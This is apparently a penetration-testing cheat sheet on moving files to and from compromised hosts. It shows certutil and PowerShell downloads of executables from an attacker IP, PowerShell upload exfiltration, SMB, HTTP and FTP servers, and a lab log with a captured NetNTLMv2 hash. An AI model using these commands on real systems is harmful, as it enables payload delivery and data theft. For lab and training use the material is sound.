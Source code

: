 - [Windows File Transfer](#windows-file-transfer)
	- [Certutil](#certutil)
	- [PowerShell](#powershell)
- [Linux File Transfer](#linux-file-transfer)
	- [impacket-smbserver](#impacket-smbserver)
	- [HTTP](#http)
	- [FTP](#ftp)
		- [pyftpdlib](#pyftpdlib)
- [SSH/SCP](#sshscp)


# [Windows File Transfer](#windows-file-transfer-1)
## [Certutil](#certutil-1)
### [Downloading Files with Certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
```sh
certutil.exe -urlcache -f http://10.1.1.1/40564.exe bad.exe
certutil -urlcache -f http://10.1.1.1/40564.exe bad.exe

$t = '10.1.1.1'
certutil -urlcache -f http://$t/40564.exe bad.exe
```
(New-Object Net.WebClient).DownloadFile('http://$t/taskkill.exe','C:\Windows\Temp\taskkill.exe')

## [PowerShell](#powershell-1)
https://gitbook.brainyou.stream/post-exploitation/file-transfer
```sh
powershell (New-Object System.Net.WebClient).UploadFile('http://x.x.x.x/upload.php', '<some_file>')
```

PHP Handler
On Kali, we can make a upload.php:
```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name']
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Put the script into /var/www/html. Then do:
```sh
mkdir /var/www/uploads
systemctl start apache
chown www-data: /var/www/uploads
```

# Linux File Transfer
## impacket-smbserver
### [SMB](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
### On Server Side (Kali)
```sh
smbserver.py share . -smb2support
smbserver.py share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor -ip 10.1.1.1
```

```sh
$ impacket-smbserver share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### On Client Side
```sh
C:\Users\bitbucket\Downloads>net use \\10.1.1.1\share
Enter the user name for '10.1.1.1': root
Enter the password for 10.1.1.1: toor
The command completed successfully.
```

```sh
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.1.1.1\share
        1 file(s) copied.
```

### On Server Side (Kali), received the file
```sh
[*] Incoming connection (10.10.10.77,52853)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:ce35716473cdd23a96f36ceb04c047b7:01010000000000008001dda490e0d90110624f8984ad10560000000001001000410070004900720061006c006700690003001000410070004900720061006c00670069000200100044005400690049006800610071006f000400100044005400690049006800610071006f00070008008001dda490e0d90106000400020000000800300030000000000000000000000000300000af600118190f818eb191529b8de7b91c47aaab8e73855d44e95d1b6e27fd549f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.77,52853)
[*] Remaining connections []

Ctrl + C

$ ls -lh acls.csv                         
-rwxr-xr-x 1 kali kali 110K Jan  1  1970 acls.csv
```

## [HTTP](#http-1)
```sh
python -m http.server
python -m http.server 80
python -m http.server 80 -b 10.1.1.10
```

## [FTP](#ftp-1)
### [pyftpdlib](#pyftpdlib-1)
```sh
pip install pyftpdlib
python -m pyftpdlib -p 21
```

### On Client Side
Use explorer, browser, or cmd
```sh
PS C:\> ftp 10.1.1.1
Connected to 10.1.1.1.
220 pyftpdlib 1.5.9 ready.
530 Log in with USER and PASS first.
User (10.1.1.1:(none)): anonymous
331 Username ok, send password.
Password:
230 Login successful.
ftp> ls
```

# SSH/SCP
### 
```sh
$ ssh -i alice.pem alice1978@$t ls
lin.txt

$ scp -i alice.pem alice1978@$t:~/lin.txt .
lin.txt          100%   59KB 429.8KB/s   00:00
```

### 
```sh

```

### 
```sh

```
# [References](#references-1)

## [UPLOAD DOWNLOAD AND EXECUTE SOME STUFF]
https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/Y%20-%20UL-DL-EXEC%20Skills/README.md